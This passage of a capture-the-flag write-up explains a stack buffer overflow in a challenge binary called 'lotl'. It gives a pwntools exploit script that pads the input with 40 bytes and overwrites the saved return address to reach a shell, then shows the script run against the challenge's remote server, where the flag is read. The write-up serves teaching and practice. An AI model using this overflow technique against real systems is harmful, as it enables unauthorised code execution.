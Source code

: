 In the text dump above, 0x41 is the byte representation of the letter A. The saved RIP is at `0x7fffffffe5a8`. Now we just need to overwrite that address with the address of `profit`. We can do this easily with `pwntools`, a python binary exploitation library:

```python
from pwn import *

# using pwntools, launch the executable locally
conn = process("./lotl")

# read the output until the program asks for input
conn.recvuntil(b'> ')

# construct the string to send
#                  address of profit in little endian byteorder, padded to 64 bits
string = b"A"*40 + b"\x6e\x08\x40\x00\x00\x00\x00\x00"

conn.send(string)

# enter interactive mode
conn.interactive()
```

When we run this locally, we get:

```text
$ python lotl.py
[+] Starting local process './lotl': pid 240514
[*] Switching to interactive mode
$ 
```

That dollar sign means the script did its job, it overwrote `rip` and we have our shell!

Now all we have to do is pwn the server!

With a modified target:

```python
conn = remote("46.101.107.117", 2102)
```

We can run the script again.

```text
note: >> is local prompt, $ is remote prompt.

>> python lotl.py
[+] Opening connection to 46.101.107.117 on port 2102: Done
[*] Switching to interactive mode
$ ls
challenge1
flag
ynetd
$ cat flag
he2021{w3ll_th4t_w4s_4_s1mpl3_p4yl04d}
```

---
*Flag:* `he2021{w3ll_th4t_w4s_4_s1mpl3_p4yl04d}`
